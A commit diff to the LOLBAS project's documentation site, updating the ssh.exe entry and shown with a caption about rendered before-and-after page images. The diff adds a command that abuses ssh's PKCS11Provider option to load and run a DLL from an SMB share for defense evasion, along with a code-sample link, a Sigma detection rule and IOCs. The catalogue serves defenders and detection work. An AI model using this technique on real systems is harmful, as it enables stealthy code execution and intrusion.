

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/Binaries/Ssh.md, in a window 1280 px wide. Shown: the whole page at 81% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1081 px from its top, so only the background shows below that.

Commit message:
Applying update LOLBAS-Project/LOLBAS@70f3ec38a565203d0ee44e8b7b28bf18422bf6ee

```diff
--- a/_lolbas/Binaries/Ssh.md
+++ b/_lolbas/Binaries/Ssh.md
@@ -22,15 +22,29 @@ Commands:
     OperatingSystem: Windows 10
     Tags:
       - Execute: CMD
+  - Command: ssh -o PKCS11Provider="\\\\127.0.0.1\\Temp\\example.dll" win@github.com
+    Description: Executes a DLL from an SMB share by abusing the PKCS11Provider option. The payload executes upon DLL load (DllMain) and requires exporting C_GetFunctionList to prevent premature termination by `ssh.exe`. Note that all backslashes should be escaped (i.e. every `\` should be turned into `\\`).
+    Usecase: Performs indirect execution of a specified DLL from a remote share, can be used for defense evasion.
+    Category: Execute
+    Privileges: User
+    MitreID: T1202
+    OperatingSystem: Windows 10, Windows 11
+    Tags:
+      - Execute: DLL
+      - Execute: Remote
 Full_Path:
   - Path: c:\windows\system32\OpenSSH\ssh.exe
+Code_Sample:
+  - Code: https://gist.github.com/screetsec/97d90750bfb058eb0b49c5374cdc0ac9
 Detection:
   - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_ssh.yml
   - IOC: Event ID 4624 with process name C:\Windows\System32\OpenSSH\sshd.exe.
   - IOC: command line arguments specifying execution.
 Resources:
   - Link: https://gtfobins.github.io/gtfobins/ssh/
+  - Link: https://gist.github.com/screetsec/97d90750bfb058eb0b49c5374cdc0ac9
 Acknowledgement:
   - Person: Akshat Pradhan
   - Person: Felix Boulet
+  - Person: Edo Maland
 ---
```
